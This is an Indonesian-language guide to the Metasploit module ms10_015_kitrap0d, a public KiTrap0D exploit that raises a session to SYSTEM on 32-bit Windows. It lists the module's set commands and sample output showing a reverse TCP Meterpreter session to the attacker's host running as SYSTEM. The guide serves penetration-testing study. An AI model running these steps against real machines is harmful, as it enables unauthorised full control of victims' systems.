 # ms10_015_kitrap0d

Modul ini akan membuat sesi baru dengan hak akses `SYSTEM` melalui exploit `KiTrap0D` yang ditemukan oleh `Tavis Ormandy`. Jika sesi yang sedang digunakan sudah memiliki hak akses elevated (`administrator/SYSTEM`), maka exploit ini tidak akan dijalankan. Modul ini bergantung pada `kitrap0d.x86.dll`, dan tidak didukung pada edisi `Windows 64-bit` (`x64`), hanya untuk `Windows 32-bit` (`x86`).

## Penulis
- Tavis Ormandy
- HD Moore
- Pusscat
- OJ Reeves

# Platform
- `Windows`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms10_015_kitrap0d
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching netsh to host the DLL...
[+] Process 1936 launched.
[*] Reflectively injecting the DLL into 1936...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 192.168.1.54
[*] Meterpreter session 25 opened (192.168.1.11:4444 -> 192.168.1.54:1057) at 2025-05-17 08:10:04 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/ms10_015_kitrap0d/)
